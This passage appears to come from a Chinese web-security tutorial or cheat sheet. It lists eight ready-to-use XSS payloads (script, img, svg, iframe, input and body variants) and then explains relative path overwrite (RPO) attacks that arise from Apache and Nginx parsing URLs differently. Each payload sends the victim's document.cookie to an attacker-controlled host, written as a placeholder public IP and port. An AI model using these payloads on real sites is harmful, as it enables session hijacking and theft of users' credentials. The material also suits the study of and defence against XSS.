 #### 各种姿势
```

<script>window.open('http://你的公网ip:端口号/'+document.cookie)</script>

<script>var img = document.createElement("img");img.src = "http://你的公网ip:端口号/?cookie="+document.cookie;</script>

<script>window.location.href='http://你的公网ip:端口号/'+document.cookie</script>

<script>location.href='http://你的公网ip:端口号/'+document.cookie</script>

<input onfocus="window.open('http://你的公网ip:端口号/'+document.cookie)" autofocus>

<svg onload="window.open('http://你的公网ip:端口号/'+document.cookie)">

<iframe onload="window.open('http://你的公网ip:端口号/'+document.cookie)"></iframe>

<body onload="window.open('http://你的公网ip:端口号/'+document.cookie)">

```


### RPO 攻击
#### 原理
由于**Apache 服务器对编码后的 url 不能正常解析，而 Nginx 却可以正常解析。**
（Apache 服务器不能解析%2f 是默认配置问题，可见：链接包含”%2F”导致mod_rewrite失效）
假设现在有2个目录分别为aaa目录和bbb目录，利用浏览器与服务器对特殊构造的url的解析差异
能够让获取了aaa目录下的文件的浏览器误以为自己在bbb目录。
当aaa下的文件出现了相对路径的文件引用的时候，浏览器会去读取bbb目录下的该文件，从而造成了漏洞的产生。
目前来看此攻击方法依赖于浏览器和网络服务器的反应
基于服务器的Web缓存技术和配置差异，以及服务器和客户端浏览器的解析差异
利用前端代码中加载的css/js的相对路径来加载其他文件
最终浏览器将服务器返回的不是css/js的文件当做css/js来解析
从而导致XSS，信息泄露等漏洞产生。